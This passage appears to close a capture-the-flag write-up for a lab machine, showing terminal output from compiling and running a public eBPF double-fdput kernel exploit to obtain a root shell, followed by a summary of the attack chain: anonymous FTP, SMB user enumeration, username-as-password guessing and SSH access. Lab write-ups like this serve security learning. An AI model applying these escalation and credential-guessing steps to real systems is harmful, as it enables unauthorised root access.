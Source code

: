 After extracting the tar files we can cd into ebpf_mapfd_doubleput_exploit and run compile.sh then execute doubleput.

```
SHayslett@red:/tmp/39772$ cd ebpf_mapfd_doubleput_exploit/
SHayslett@red:/tmp/39772/ebpf_mapfd_doubleput_exploit$ 

SHayslett@red:/tmp/39772/ebpf_mapfd_doubleput_exploit$ ./compile.sh 
doubleput.c: In function ‘make_setuid’:
doubleput.c:91:13: warning: cast from pointer to integer of different size [-Wpointer-to-int-cast]
    .insns = (__aligned_u64) insns,
             ^
doubleput.c:92:15: warning: cast from pointer to integer of different size [-Wpointer-to-int-cast]
    .license = (__aligned_u64)""


SHayslett@red:/tmp/39772/ebpf_mapfd_doubleput_exploit$ ./doubleput 
starting writev
woohoo, got pointer reuse
writev returned successfully. if this worked, you'll have a root shell in <=60 seconds.
suid file detected, launching rootshell...
we have root privs now...
root@red:/tmp/39772/ebpf_mapfd_doubleput_exploit# whoami
root
```

We have now escalated to root and have completed the box. 

## Breakdown
---
1. FTP allowed anonymous access.
2. SMB Enumeration revealed a list of users that could be present on the box.
3. We extracted the list of users from enum4linux and ran it against the FTP service using users.txt as payloads for user and password parameters.
4. A user was using their own username as password for FTP and we were able to use these same creds to SSH in.
5. linpeas revelaed the box was running an older version of linux which had multiple kernel exploits.
6. double-fdput was used to elevate privileges and complete the box.

